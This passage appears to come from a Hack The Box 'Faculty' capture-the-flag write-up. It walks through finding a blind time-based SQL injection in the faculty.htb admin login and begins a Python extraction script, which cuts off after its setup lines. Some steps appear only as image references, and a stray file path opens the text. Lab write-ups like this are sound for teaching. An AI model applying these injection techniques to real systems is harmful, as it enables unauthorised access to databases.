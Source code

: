 ![](/assets/img/faculty-htb/null_columns.png)

You can do the same using **order by "number of columns"**. Example:

![](/assets/img/faculty-htb/orderby.png)

I'll try a time based query to see if i can get information to do the script i want in **Python**.

![](/assets/img/faculty-htb/burp_sqli_sleep.png)

Voila!! we have a potential exploit advantage.

Now how do i exploit this using **Python**, well this is a **sqli blind**, we exploit this using **time based** payloads, and scripting them in **Python** as data **requests**, so these 2 script's you see right here will get the **db's** for further actions.

```python
#!/usr/bin/python3

from pwn import *
import requests, time, signal, pdb, string, sys


def def_handler(sig, frame):
    print("\n[!] Exiting....\n")
    sys.exit(1)

#Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Global Variables

characters = string.ascii_lowercase + string.digits + '-_'
login_url = 'http://faculty.htb/admin/ajax.php?action=login'
```